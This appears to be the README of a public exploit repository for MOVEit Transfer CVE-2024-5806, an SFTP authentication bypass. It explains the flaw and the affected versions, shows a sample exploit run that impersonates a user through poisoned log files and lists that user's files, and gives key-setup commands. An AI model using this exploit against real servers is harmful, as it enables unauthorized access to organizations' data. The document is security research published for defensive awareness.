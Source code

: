 # CVE-2024-5806

>MOVEit Transfer是Progress公司推出的用于安全文件传输和协作的企业级解决方案。

Exploit for Progress MOVEit Transfer CVE-2024-5806. See our blog post at [TBD].

## 来源

[https://github.com/watchtowrlabs/watchTowr-vs-progress-moveit_CVE-2024-5806](https://github.com/watchtowrlabs/watchTowr-vs-progress-moveit_CVE-2024-5806)

## 简介

MOVEit Transfer（SFTP模块）存在不当认证漏洞，当使用文件名而非公钥进行认证时，MOVEit的Authenticate方法在证书验证失败时返回状态Denied但没有设置StatusCode，导致系统误认为需要进一步认证，并将HasAuthenticatedByPublicKey值设置为true，进而绕过身份验证，获取系统访问权限。

## 漏洞类型

身份验证不当

## 影响范围

-   2023.1.0 <= MOVEit Transfer < 2023.1.6
-   2024.0.0 <= MOVEit Transfer < 2024.0.2
-   2023.0.0 <= MOVEit Transfer < 2023.0.11

## PoC in Action

See `--help` for, well, help. A typical run should look like this:

```shell
> python CVE-2024-5806.py --target-ip 192.168.1.1 --target-user user2 --ppk id.ppk --pem id
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        CVE-2024-5806.py
        (*) Progress MoveIT Transfer SFTP Authentication Bypass (CVE-2024-5806)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        Note: We (watchTowr) aren't the original discoverers of the bug, we just reproduced it and wrote the exploit
              in order to enable proactive protection of client attack surfaces.
              We will update with proper credit when available.
        CVEs: [CVE-2024-5806]

(*) Poisoning log files multiple times to be sure...
..........OK
(*) Waiting 60 seconds for logs to be flushed to disk
(*) Attempting to authenticate..
(*) Trying to impersonate user2 using the server-side file path 'C:\MOVEitTransfer\Logs\DMZ_WEB.log'
(+) Authentication succeeded.
(+) Listing files in home directory of user user2:

-rw-rw-rw- 1 0 0 1.4M Jun 11 11:39 stocks.xlsx
-rw-rw-rw- 1 0 0 2.4M Jun 13 13:32 customer_list.xlsx
-rw-rw-rw- 1 0 0 2.3M Jun 15 12:16 payroll_Jun.csv
-rw-rw-rw- 1 0 0 1.2M Jan 21 10:03 my_signature.png
-rw-rw-rw- 1 0 0  304 Jun 17 17:29 passwords.txt
```


## Setup
To run the exploit, you'll need a keypair in both PEM and PPK format. On Windows, you can use `puttygen` to generate these files. On Linux, you can use `openssh` and `putty-tools` package. Just hit enter when prompted for a key.

```bash
$ sudo apt-get install openssh-client putty-tools
$ puttygen -t rsa -b 2048 -o putty_key.ppk
Enter passphrase to save key:
Re-enter passphrase to verify:
$ puttygen putty_key.ppk -O private-openssh -o id_rsa
```

## Affected Versions

This vulnerability is fixed in Progress MOVEit version `2024.0.2`.

## Exploit authors

This exploit was written by [Aliz (@AlizTheHax0r)](https://x.com/AlizTheHax0r) and [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber) 

## Follow [watchTowr](https://watchTowr.com) Labs
For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://twitter.com/watchtowrcyber
- [blog link TBD]
